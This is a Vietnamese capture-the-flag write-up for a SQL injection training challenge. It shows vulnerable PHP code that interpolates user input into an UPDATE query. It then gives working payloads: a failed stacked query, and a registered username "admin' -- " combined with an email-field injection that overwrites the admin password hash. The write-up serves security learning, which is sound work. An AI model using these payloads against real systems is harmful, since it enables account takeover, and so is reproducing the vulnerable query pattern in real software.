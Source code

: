 # SQL Injection 8

## Thử thách về lỗi bảo mật SQL Injection
## Mục tiêu: Login as admin
Cũng như [lv7](./Lv7-advanced.md) thì ở đây Prepared Statements. Và ở dòng 17 lấy username để sử dụng tính năm update.  
Ở tính năng update nếu username = admin thì sẽ hiện ra flag.  
Khi nhấn update thì trả về hết quả thành công hay thất bại.
```
$username = $_SESSION['username'];
$email = $_POST['email'];
if ($username === 'admin')
    $message = "<h3><b>Wow you can finally log in as admin, here is your flag CBJS{FAKE_FLAG_FAKE_FLAG}</b></h3>";

if (isset($_POST['button'])) {
    try {
        $sql = "UPDATE users SET email='$email' WHERE username='$username'";
        $db_result = $database->query($sql);
        if ($db_result) {
            $message = "Successfully update your Email";
        } else {
            $message = "Failed to update your email";
        }
    } catch (mysqli_sql_exception $e) {
        $message = $e->getMessage();
    }
}
```
# Khai thác
Liệu có thể dùng sql để update user admin không.  
Có `multi-statement sql`, Các câu lệnh này thường được phân tách bằng dấu chấm phẩy (` ; `)

sql ex:
```
UPDATE users SET email='a@gmail.com' WHERE username='user1';
UPDATE users SET password=MD5('123456') WHERE username='admin';
```
Playload
```
user1'; UPDATE users SET password=MD5('123456') WHERE username='admin' -- 
```
### Cách này ko được lỗi `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'UPDATE users SET password=MD5('123456') WHERE username='admin' -- '' at line 1 `
- Câu lệnh `update` cho phép update nhiều column cùng 1 lúc:
```
UPDATE table_name
SET column1 = value1,
    column2 = value2,
    ...
WHERE điều_kiện;
```
ex:
```
UPDATE users SET email='a@gmail.com',password='gen-pass-md5' WHERE username='admin' -- '
```
đăng ý user với tên `admin' -- `. xong.  
email nhập:  
với `b8dc042d8cf7deefb0ec6a264c930b02` = huy123 [gen tại đây](https://www.md5hashgenerator.com/)
```
testaaaaa@gmail.com',password='b8dc042d8cf7deefb0ec6a264c930b02
```


